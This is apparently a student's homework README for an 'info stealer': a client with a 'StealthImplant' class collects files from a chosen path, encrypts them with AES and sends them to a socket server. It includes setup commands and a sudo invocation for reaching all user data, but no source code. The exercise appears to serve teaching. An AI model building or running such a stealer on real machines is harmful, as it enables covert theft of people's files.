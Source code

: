 # Info stealer

# Installation

- first create the virtual environment. run `python3 -m venv venv`

- activate it. run `source venv/bin/activate`

- install the library you need. run `pip install pycryptodome`

# Example usage: 

## Client

- `python3 tmp363.py <server_ip> <server_port>`

If we want to access all user data, then we need to run

- `sudo env "PATH=$VIRTUAL_ENV/bin:$PATH" python3 tmp363.py localhost 8080`

## Server

- `python3 server363.py <ip> <port>`

note: server need to run first before client.

# Description

## Client

my tmp363 has a StealthImplant class which does what the hw doc ask us to do. First it walk through the `source` we initialize it with, to it will get all the files or files inside directory we want, to a list. Later, we have another function that will write the content of these value into the cache which will be encrypt later using AES and send to server.

## Server

It basically use socket to retrieve data from the client


